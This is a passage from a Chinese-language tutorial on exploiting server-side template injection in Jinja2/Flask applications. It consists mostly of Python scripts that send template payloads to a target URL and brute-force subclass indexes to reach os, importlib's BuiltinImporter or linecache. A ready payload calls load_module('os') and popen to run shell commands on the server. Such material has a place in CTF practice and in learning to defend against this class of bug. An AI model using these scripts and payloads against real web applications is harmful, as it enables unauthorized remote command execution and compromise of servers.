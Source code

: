   ```python
  Python脚本查找已经加载os模块的子类
  import requests
  url = input('请输入URL：')
  for i in range(500):
      data = {"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__}}"}
      try:
          response=requests.post(url,data=data)
          # print(response.text)
          if response.status_code == 200:
              if 'os.py' in response.text:
                  print(i)
      except:
          pass
  ```

* importlib类执行命令

  可以加载第三方库，使用load_module加载os

  ```py
  Python脚本查找_frozen_importlib.BuiltinImporter
  import requests
  url = input('请输入URL：')
  for i in range(500):
      data = {"name":"{{().__class__.__base__[0].__subclasses__()["+str(i)+"]}}"}
      try:
          response=requests.post(url,data=data)
          # print(response.text)
          if response.status_code == 200:
              if '_frozen_importlib.BuiltinImporter' in response.text:
                  print(i)
      except:
          pass
  ```

  ```py
  {{[].__class__.__base__.__subclasses__()[69]["load_module"]("os")["popen"]("ls -l").read()}}
  ```

* linecache函数执行命令

  linecache函数用于读取任意一个文件的某一行，而这个函数也引入了os模块，所以我们可以利用这个linecache函数去执行命令

  ```py
  import requests
  url = input('请输入URL：')
  for i in range(500):
      data = {"name":"{{().__class__.__base__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"}
      try:
          response=requests.post(url,data=data)
          # print(response.text)
          if response.status_code == 200:
              if 'linecache' in response.text:
                  print(i)
      except:
          pass
  ```
